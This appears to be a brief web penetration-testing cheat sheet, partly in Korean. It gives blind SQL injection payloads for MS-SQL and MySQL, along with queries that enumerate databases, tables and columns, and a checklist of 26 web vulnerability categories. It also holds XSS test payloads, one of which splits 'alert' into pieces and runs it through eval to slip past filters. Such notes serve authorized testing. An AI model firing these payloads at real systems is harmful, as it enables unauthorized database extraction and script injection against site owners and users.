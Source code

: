 <MS-SQL> <br>
#Shape <br>
select * from board where Title='//' and substring((query), 1, 1) < 'a'--<br>
???' and substring((query), 1, 1) < 'a'--<br>
<br>
#get DB NAME <br>
db_name() <br>
<br>
#Get Table name <br>
select top 1 name from sysobjects where xtype='U' <br>
<br>
#Get Column name <br>
select top 1 column_name from information_schema.columns where table_name = '[Table Name]' <br>
<br>
#Get Data <br>
select top 1 [Column Name] from [Table Name] <br>
<br>
<br>
<br>
<MySQL> <br>
???' and ascii(substring((query), 1, 1)) > 'a'# <br>
<br>
#Get Table Name <br>
select table_name from information_schema.tables where table_type='base table' limit 0,1 <br>
                                                                                     ㄴ> 0번 째 테이블 <br>
  



-----------------------------------------------------------------------------------
1. 관리자페이지 접근통제 및 계정관리
2. 사용자 접근통제 및 로그관리
3. 사용자 비밀번호 관리
4. 비인가 페이지 접근
5. 파라미터 변조 취약점
6. 암호화
7. 소스코드 속
8. 검색엔진 robot
9. HTTP Method
10. Direcory Listing
11. 취약한 세션 및 쿠키 인증
12. Buffer Overflow
13. Format String
14. 시스템 명령어 실행 취약점
15. 파일 다운로드 
16. 파일 업로드
17. 파일 Include
18. 악성 스크립트 XSS, CSRF
  <img src="#" onmouseover="alert(1);">
  <img src="#" onerror="alert(1);">
  <img onclick='var a="aler"+"t(al"+"ert"+"(1));";eval(a);'>
19. 악성 콘텐츠 html
20. 웹페이지 오류정보 처리
21. 웹서버 백업파일 관리
22. 취약한 게시판 프로그램, 웹어플리케이션
23. SQL Injection
24. SSI Injection
25. XML 취약점
26. LDAP Injection
